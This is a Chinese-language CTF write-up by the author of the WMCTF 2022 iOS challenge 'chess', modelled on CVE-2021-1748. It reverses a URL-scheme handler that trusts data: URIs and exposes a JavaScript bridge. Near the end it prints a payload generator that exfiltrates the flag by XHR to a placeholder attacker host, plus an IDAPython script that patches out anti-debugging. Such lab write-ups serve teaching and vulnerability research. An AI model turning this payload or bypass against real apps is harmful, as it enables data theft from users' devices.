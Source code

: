 ```yaml
---
title: WMCTF 2022 挑战赛 chess writeup
publish_date: 2022-08-22
---
```


### 写在前面

有幸受邀给 WMCTF 2022 出一道客户端的赛题。而传统的客户端 CTF 一般无论是以游戏的形式展示或者单纯一个输入框，都是客户端内置了一个算法，需要选手去逆向这个算法来拿到 flag。受到 Real World CTF 2019 中 [DezhouInstrumenz](https://github.com/ChiChou/DezhouInstrumenz) 的启发，决定出一个贴近真实环境的，真正能给选手挖洞提供思路参考的题目。于是就有了这道参考**著名白帽黑客 CodeColorist 的 CVE-2021-1748 来出的一道题目**（由于该 CVE 影响范围较广且具有比较严重的危害，所以题目进行了一定的魔改）。

### 解题过程

首先拿到 IPA 解压缩之后发现在 Bundle 中存在一个名为 flag 文件，文件内容为 {placeholder}。且根据赛题得知有一台真实 iPhone 在后端运行，则可知存在真正的 flag 的 App 正运行在该 iPhone 当中。

查看 Bundle 中的 Info.plist 文件可发现应用注册一个 URL Scheme，为 `chess://`：

![6303269930df1](../wmctf_2022_chess_writeup/6303269930df1.png)

将二进制扔到 IDA 进行分析，查看应用 URL Scheme 的关键回调逻辑：

![image.png](../wmctf_2022_chess_writeup/630339a0499fe.png)

继续跟进 `_showExternalURL`：

![image.png](../wmctf_2022_chess_writeup/630339df7bb9e.png)

代码中存在两处内联汇编的反调试逻辑，选手可以通过静态匹配特征来 patch：

![image.png](../wmctf_2022_chess_writeup/63033a628fe0e.png)

在 `showExternalURL` 函数中遇到第一个判断：

![image.png](../wmctf_2022_chess_writeup/63033b492377b.png)

通过动态调试跟进函数看下判断的逻辑：

![image.png](../wmctf_2022_chess_writeup/Xnip2022-08-22_16-20-07.png)

该部分代码大意为：如果 URL 的参数中存在 urlType=exit 或者 search 或者 web 时则返回 true。

当判断返回 true 时则跳进第一个分支 `_legacyResolveExternalURL` 函数中：

![image.png](../wmctf_2022_chess_writeup/63033d22e1f7d.png)

继续跟进 `resolveURL` 函数中：

![Xnip20220822_162741.png](../wmctf_2022_chess_writeup/Xnip2022-08-22_16-27-41.png)

在 `_showAccountViewControllerWithURL` 函数中会先取传入 URL 中的 url 参数字段，并弹出新的控制器进行加载：

![image.png](../wmctf_2022_chess_writeup/63033ef006333.png)

我们可以看到新弹出的控制器是用`UIHostingController` 包装的 `ContentWebView`。

在 SwiftUI 中如何实现一个 WebView 参考链接：https://www.appcoda.com/swiftui-wkwebview/

寻找 `makeUIView` 函数来看下应用是如何处理构造 URLRequest 的，关键代码：

![image.png](../wmctf_2022_chess_writeup/630340ae598cc.png)

先调用了 `_URLByRemovingBlacklistedParametersWithURL` 函数，在该函数中进行了一些特殊符号的过滤，并且在 URL 的结尾添加了一个 `?` 符号。

接下来调用 `urlIsTrusted` 进行了一次判断：

![image.png](../wmctf_2022_chess_writeup/63034fae242c0.png)

在该函数中存在一段逻辑，当传入的 URL 的 Scheme 为 data 时，则返回  true。也就是说当传入 URL 是个 Data URi 时则认为该 URL 是个可信的 URL。

当传入的 URL 是一个可信 URL 时，则调用 `injectScriptInterface` ，并且加载 URL：

![image.png](../wmctf_2022_chess_writeup/630350565b093.png)

让我们跟进 `injectScriptInterface` 看下关键逻辑：

![Xnip20220822_175321.png](../wmctf_2022_chess_writeup/Xnip2022-08-22_17-53-21.png)

可以看到将 `WMScriptInterface` 类的方法导出到 js 上下文中，这些 API 被放在全局作用域的 `wmctf` 命名空间里。

然后我们在 IDA 中搜索，惊喜的发现有个 `-[chess.WMScriptInterface _getFlag]` 的函数：

![image.png](../wmctf_2022_chess_writeup/630352619b9c1.png)

此时我们得知可以一个构造 payload 然后通过 URL Scheme 调起 chess 客户端，并执行 `wmctf.$_getFlag()` 来获取到 flag。

构造生成 Payload 的 js 代码：

```javascript
String.prototype.toDataURI = function() {
  return 'data:text/html;,' + encodeURIComponent(this).replace(/[!'()*]/g, escape);
}

function payload() {  
  var xhr = new XMLHttpRequest(); xhr.open('GET', 'http://XXX/test?flag=' + wmctf.$_getFlag(), false); xhr.send();
}

const data = `<script type="application/javascript">(${payload})()<\/script>`.toDataURI()
const url = new URL('chess://x?urlType=web');

url.searchParams.set('url', data);
url.toString()
```

只要将该 URL Scheme 提交（我写了个 webserver，用来接收 payload 并在设备执行），则会在设备执行，并且将 flag 发送到攻击者的服务器。

IDAPython Ptach `svc 0x80`:

``` python
import idc
def text_seg_addr_start():
    for seg in Segments():
        if SegName(seg) == '__text':
            addr = hex(SegStart(seg))
            print("text segment address start: " + addr)
            return int(addr[0:-1], 16)
def text_seg_addr_end():
    for seg in Segments():
        if SegName(seg) == '__text':
            addr = hex(SegEnd(seg))
            print("text segment address end: " + addr)
            return int(addr[0:-1], 16)       
start = text_seg_addr_start()
end = text_seg_addr_end()
while start < end:
    m = idc.print_insn_mnem(start)
    n = idc.print_operand(start, 0)
    if m == 'SVC' and n == '0x80':
        # print(idc.GetDisasm(start))
        if idc.print_operand(idc.prev_head(start), 1) == '#0x1A':
            idc.PatchDword(start, 0xD503201F)
            print("patch {} success!".format(hex(start)))
    start += 4
```

### 彩蛋：

当用 js 调用 wmctf 命名空间中一个不存在的方法时，则会返回一段 base64 编码的图片字符串！

### 参考资料

https://codecolor.ist/2021/08/04/mistuned-part-i/
https://developer.apple.com/documentation/objectivec/nsobject/webscripting?language=objc
https://developer.apple.com/documentation/objectivec/nsobject/1528539-webscriptname/
https://developer.apple.com/library/archive/documentation/AppleApplications/Conceptual/SafariJSProgTopics/ObjCFromJavaScript.html